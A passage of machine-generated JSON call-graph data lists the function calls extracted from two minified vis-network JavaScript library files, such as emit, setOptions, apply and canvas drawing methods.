"EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_XconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_YconvertDOMtoCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cleanupTemporaryNodesAndEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_performAddEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDistances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createL_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createK_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createE_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getHighestEnergyNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getEnergy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateE_matrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "validate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setModuleOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_isClusteredNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_isClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateVisibleIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setValueRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "redraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "copyright"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "copyright"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "propertyIsEnumerable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": 